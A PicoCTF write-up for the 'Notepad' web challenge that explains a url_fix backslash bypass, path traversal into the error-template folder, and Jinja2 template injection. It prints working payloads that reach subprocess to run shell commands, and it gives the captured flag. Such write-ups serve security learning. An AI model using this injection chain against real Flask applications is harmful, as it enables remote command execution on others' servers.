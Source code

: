 ﻿---
layout: post
title:  "notepad WU"
date:   2024-09-15 15:23:10 +0700
categories: write-up PicoCTF
author: HSw109
tags: web
---

# Notepad - PicoCTF

## app.py 

 ```python
 @app.route('/user/<name>')
def greet_user(name):
    return render_template('greet.html', name=name)
```

https://notepad.mars.picoctf.net/ render **index.html** with context variable "error" .

```python
@app.route("/new", methods=["POST"])
def create():
    content = request.form.get("content", "")
    if "_" in content or "/" in content:
        return redirect(url_for("index", error="bad_content"))
    if len(content) > 512:
        return redirect(url_for("index", error="long_content", len=len(content)))
    name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
    with open(name, "w") as f:
        f.write(content)
    return redirect(name)
```
https://notepad.mars.picoctf.net/new for uploading notes. Variable **content** is taken from the HTML form, filtered with '_' and '/' and if occur, redirect to error html. If not, store new file html note in folder static with file name is `static/{url_fix(content[:128])}-{token_urlsafe(8)}.html`

### url_fix()
Its deprecated in the werkberg library ([here](https://tedboy.github.io/flask/generated/werkzeug.url_fix.html)). Source:
```python
def url_fix(s, charset='utf-8'):
    r"""Sometimes you get an URL by a user that just isn't a real URL because
 it contains unsafe characters like ' ' and so on. This function can fix
 some of the problems in a similar way browsers handle data entered by the
 user:

 >>> url_fix(u'http://de.wikipedia.org/wiki/Elf (Begriffskl\xe4rung)')
 'http://de.wikipedia.org/wiki/Elf%20(Begriffskl%C3%A4rung)'

 :param s: the string with the URL to fix.
 :param charset: The target charset for the URL if the url was given as
 unicode string.
 """
    # First step is to switch to unicode processing and to convert
    # backslashes (which are invalid in URLs anyways) to slashes.  This is
    # consistent with what Chrome does.
    s = to_unicode(s, charset, 'replace').replace('\\', '/')

    # For the specific case that we look like a malformed windows URL
    # we want to fix this up manually:
    if s.startswith('file://') and s[7:8].isalpha() and s[8:10] in (':/', '|/'):
        s = 'file:///' + s[7:]

    url = url_parse(s)
    path = url_quote(url.path, charset, safe='/%+$!*\'(),')
    qs = url_quote_plus(url.query, charset, safe=':&%=+$!*\'(),')
    anchor = url_quote_plus(url.fragment, charset, safe=':&%=+$!*\'(),')
    return to_native(url_unparse((url.scheme, url.encode_netloc(),
                                  path, qs, anchor)))
   ```

Notice that we have
 ```python
s = to_unicode(s, charset, 'replace').replace('\\', '/')
```
which is crucial for bypass "/" filter.

## index.html
{% raw %}
```html
    <!doctype  html>
    {% if error is not none %}
		    <h3>
		    error: {{ error }}
		    </h3>
		    {% include "errors/" + error + ".html" ignore missing %}
    {% endif %}
    <h2>make a new note</h2>
    <form  action="/new"  method="POST">
    <textarea  name="content"></textarea>
    <input  type="submit">
    </form> 
 ```
 {% endraw %}

Here, flask used Jinja2 (can SSTI). The **sink** could be the jinja template. Since https://notepad.mars.picoctf.net/?error=7*7 not works, cause the server treats the error string, so the Jinja template could not evaluate it.

{% raw %}
=> **Sink**: {% include "errors/" + error + ".html" ignore missing %}
{% endraw %}


To do that, we have:
```python
name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
    with open(name, "w") as f:
        f.write(content)
    return redirect(name)
```
From there, we can perform directory traversal to folder **errors**, then by
{% raw %}
     {% include "errors/" + error + ".html" ignore missing %}
{% endraw %}     
we evaluate SSTI payload.

## Exploit
With use of url_fix(). We note:

    make a new note
    
    ..\templates\errors\123abc

=> Redirect to: https://notepad.mars.picoctf.net/templates/errors/123abc%0D%0A-4vnyXEK_tLc.html. Then we access it. 
=> https://notepad.mars.picoctf.net/?error=123abc%0D%0A-4vnyXEK_tLc

    error: 123abc -4vnyXEK_tLc
    
     make a new note
{% raw %}
Do the same with simple payload {{7*7}}
{% endraw %}

=>
{% raw %}
    error: 123abc {{7*7}}-mAQRWwnJPVg
{% endraw %}

    make a new note

Since it in the name of file, we cant evaluate it, to do this: from **app.py**:
```python
 name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
 ```
{% raw %}
After processing with `url_fix()`, the `{{7*7}}` expression contained special character `{` and `}`. So if its exist in the URL, we just pass the value of variable `error`, not the file that we made.
{% endraw %}

So what we need is make the content longer, then the payload is outbound of 128 characters =>
URL path is valid for access => SSTI!

**Payload:**
{% raw %}
    ..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa{{7*7}}
{% endraw %}

 ```bash   

    $ curl https://notepad.mars.picoctf.net/?error=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-nmraL3m59zo
    <!doctype html>
    
      <h3>
        error: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-nmraL3m59zo
      </h3>
      ..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa49
    
    <h2>make a new note</h2>
    <form action="/new" method="POST">
      <textarea name="content"></textarea>
      <input type="submit">
    </form>
```

Then we got this "49".
After a long while to craft my payload with [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti), here is my payload for by pass the `_`
 
 **Payload:**
{% raw %}
``` 
{{request['\x5f\x5fclass\x5f\x5f']['\x5f\x5fmro\x5f\x5f'][11]['\x5f\x5fsubclasses\x5f\x5f']()[273]("ls", shell=True, stdout=-1).communicate()[0].strip()}}
```
{% endraw %}


```bash
$ curl https://notepad.mars.picoctf.net/?error=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-wVxNUWfAtG4
<!doctype html>

  <h3>
    error: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-wVxNUWfAtG4
  </h3>
  ..\templates\errors\aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaab&#39;app.py\nflag-c8f5526c-4122-4578-96de-d7dd27193798.txt\nstatic\ntemplates&#39;

<h2>make a new note</h2>
<form action="/new" method="POST">
  <textarea name="content"></textarea>
  <input type="submit">
</form>
```
Do the last round for the flag:
{% raw %}
``` 
{{request['\x5f\x5fclass\x5f\x5f']['\x5f\x5fmro\x5f\x5f'][11]['\x5f\x5fsubclasses\x5f\x5f']()[273]("cat flag-c8f5526c-4122-4578-96de-d7dd27193798.txt", shell=True, stdout=-1).communicate()[0].strip()}}
```
{% endraw %}


> picoCTF{styl1ng_susp1c10usly_s1m1l4r_t0_p4steb1n}


